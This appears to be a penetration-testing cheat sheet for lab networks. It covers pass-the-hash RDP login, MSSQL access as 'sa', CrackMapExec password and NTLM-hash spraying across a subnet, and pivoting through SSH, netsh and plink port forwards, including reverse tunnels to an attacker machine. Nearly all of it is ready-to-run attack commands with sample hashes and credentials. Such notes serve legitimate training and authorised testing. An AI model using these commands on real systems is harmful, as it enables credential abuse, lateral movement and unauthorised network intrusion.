 ### RDP

```bash
xfreerdp /u:bob /d:thinc /pth:b40c7060e1bf6g227131564a7bf33d48 /v:10.11.1.1
```

### MSSQL

```bash
impacket-mssqlclient sa:password@10.11.1.31
```

### CrackMapExec

Spraying usernames

```bash
crackmapexec smb 10.11.1.1 -u users.txt -p ThisIsTheUsersPassword01 --continue-on-success
```

Spraying user NTLM hash around subnet to test access (SMB authentication). We can also use `winrm` or `mssql`.
```bash
crackmapexec smb 10.11.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:f4ada15ad8818bf28966bf80ec3e2d9d' --local-auth --continue-on-success
```

# Pivoting 
## Port forwarding
SSH
```bash
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```

Netsh on pivot machine
```powershell
netsh interface portproxy add v4tov4 listenport=443 listenaddress=172.16.143.10 connectport=443 connectaddress=192.168.119.143
```

Plink
```bash
plink.exe 10.1.1.1 -P 22 -C -N -L 0.0.0.0:4445:10.1.1.1:4443 -l KALIUSER -pw PASS

plink.exe -ssh -l newuser -pw test -R 192.168.119.143:1234:127.0.0.1:3306 192.168.119.143

# dynamic
plink.exe 10.1.1.1 -P 22 -C -N -D 1080 -l KALIUSER -pw PASS

# forward 445 on target to 444 on Kali
plink.exe -l root x.x.x.x -R 444:127.0.0.1:445
```
